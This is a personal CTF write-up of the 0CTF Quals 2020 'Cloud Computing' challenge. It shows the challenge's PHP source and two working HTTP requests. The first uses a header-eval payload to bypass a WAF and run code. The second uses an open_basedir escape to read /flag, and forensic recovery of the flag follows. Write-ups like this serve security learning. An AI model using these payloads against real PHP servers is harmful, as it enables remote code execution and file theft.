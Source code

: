 ```yaml
---
layout: post
title: 0CTF Quals 2020 - Misc
published: true
categories: [Misc, Web]
excerpt: I participated with CTF.SG again, but my computer actually died during the first 40 hours so I didn't have time to help out at all, except posting encouraging stuff in our chat. Although I titled this 'Misc', I only tried this one challenge as it looked like the it was the second easiest one after 'easyphp'. I plan to try more before it gets taken down - so watch this space for other writeups!
---
```


I participated with CTF.SG again, but my computer actually died during the first 40 hours so I didn't have time to help out at all, except posting encouraging stuff in our chat.

Although I titled this `Misc`, I only tried this one challenge as it looked like the it was the second easiest one after `easyphp`. As the challenge site is still up, I plan to try more before it gets taken down - so watch this space for other writeups!

---

## Misc

---

# Cloud Computing

#### Category: Misc | 42 solves | 211 points

<details>
  <summary>Challenge Description</summary>
  
  Welcome to our new cloud function computing platform, enjoy here. http://pwnable.org:47780/
</details>

This challenge provides all the source code on the main page, so no bruteforcing is required.

```php
<?php

error_reporting(0);

include 'function.php';

$dir = 'sandbox/' . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . '/';

if(!file_exists($dir)){
  mkdir($dir);
}

switch ($_GET["action"] ?? "") {
  case 'pwd':
    echo $dir;
    break;
  case 'upload':
    $data = $_GET["data"] ?? "";
    if (waf($data)) {
      die('waf sucks...');
    }
    file_put_contents("$dir" . "index.php", $data);
  case 'shell':
    initShellEnv($dir);
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

There are 3 endpoints: 

- `pwd` that returns the current directory
- `upload` where you can test the WAF by writing data to `index.php`
- `shell` where you might be able to execute RCE if you have the correct payload. 

Actually, I never found the use for `shell` as everything that could be done there was also doable in `upload` for this challenge.

The path in `pwd` is generated on Line 7 - it's the SHA1 hash of your IP and your User Agent, presumably to prevent people from piggybacking and getting the flag by luck. 

So the first thing I did was to fuzz the WAF with `[A-Za-z0-9]` and all the default special characters - so it's less than 100 requests and *probably* within limits of what is allowed, and I found out that it seems to block all uppercase letters, `'`,  backticks, spaces, `|`, `+`, `-` and `.`. Yes, dots too. So with this, we thought that the WAF was too restrictive and the goal should be to bypass the WAF completely, instead of acting within its restrictions.

As we controlled the headers, as shown by how our User-Agent gets processed - we can try to eval the header and thus remove the WAF restriction. Thus we found `eval(end(getallheaders()));`, which we can append as a value to the `data` parameter in `upload` by adding the PHP tag with a newline character, like this: `%3C?php%0a`, which translates to `<?php\n` when URL decoded. 

So we first tried to dump all defined variables by doing this:

```
GET /?action=upload&data=%3C?php%0aeval(end(getallheaders())); HTTP/1.1
Host: pwnable.org:47780
User-Agent: My name is Isopach and I'm a newbie
Connection: close
z: var_dump(get_defined_vars());


```

which returned the various variables like `$_SERVER`. So we know that we're on the right track.

Moving on, we get `get_current_user()` and find that we are actually `root`, so we should have write privileges, but running `var_dump(is_writable('.'));` returned `bool(false)`. Since we cannot write anything, and with the `open_basedir` restriction in effect, it would be near impossible to traverse out of our current directory. 

And so we got stuck and went to sleep.

So anyway after the CTF ended we read a Chinese writeup and discovered that it was a false negative. The directory was actually writeable. And since we were root it would not make sense for the directory to be not-writeable.

With this in mind, solving was easy - we just have to make a directory and use the `open_basedir` bypass as it was detailed on [Shpik's blog (Korean)](http://blog.shpik.kr/2019/PHP_Open_basedir_Bypass/). By setting `open_basedir` to the directory above the one we control, we can escape (traverse) to the root directory using `chdir('..')` and go to any path from there.

So with this payload:

```
POST /?action=upload&data=%3C?php%0aeval(end(getallheaders())); HTTP/1.1
Host: pwnable.org:47780
User-Agent: My name is Isopach and I'm a newbie
Connection: close
z: error_reporting(E_ALL);mkdir('sandbox/f67debcea755ae8b6050072910fc1a99bddfe823/isopach');chdir('sandbox/f67debcea755ae8b6050072910fc1a99bddfe823/isopach');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');readfile('/flag');


```

We were able to get the flag!

![Cloud Computing Flag?](../assets/0ctf-quals-2020/Cloud-Computing-Flag.png)

... or not, since the flag appears to be an `.img` file. So we can't read it directly.

I guess this is the part it stops being `Web` and becomes `Forensics` or `Misc`. You can read my other Forensics blog posts for details on that, but basically all we have to do is to recover the `img` in the usual way - either by Autopsy or Foremost - and we did just that. 

In it, there was an image with the flag.

<details>
  <summary>FLAG</summary>
  
  flag{do_u_like_cloud_computing}
</details>

***

